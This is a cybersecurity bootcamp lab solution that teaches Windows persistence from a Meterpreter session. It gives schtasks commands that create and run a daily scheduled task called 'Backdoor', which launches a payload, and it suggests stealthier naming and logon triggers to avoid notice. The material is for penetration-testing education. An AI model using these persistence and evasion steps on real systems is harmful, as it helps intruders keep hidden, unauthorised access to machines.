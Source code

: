 ## Solution File: Windows Persistence

In this activity, you established persistence on the machine to ensure your SYSTEM access. You created a scheduled task that executes a custom Meterpreter payload.

### Instructions

You will work off your Meterpreter session on the Window10 machine. If you do not have an active session on the WIN10 machine, refer to prior activities to obtain a Meterpreter shell.

1. In your Meterpreter session, drop into a `shell` session.

     - `shell`

2. Create a scheduled task that will execute your payload every day at midnight.  

     - `schtasks /create /f /tn Backdoor /SC DAILY /ST 00:00 /TR "C:\shell.exe"`

	 ![A screenshot depicts the results of the command.](schtask.PNG)

3. Test your scheduled task.

     - `schtasks /run /tn Backdoor`

	 ![A screenshot depicts the results of the command.](testschtask.PNG)

4. How could you improve this technique to make it more stealthy?

     - Better task name

     - Execute a better-named payload

     - Schedule the task only to run on certain events, such as logon

---

&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



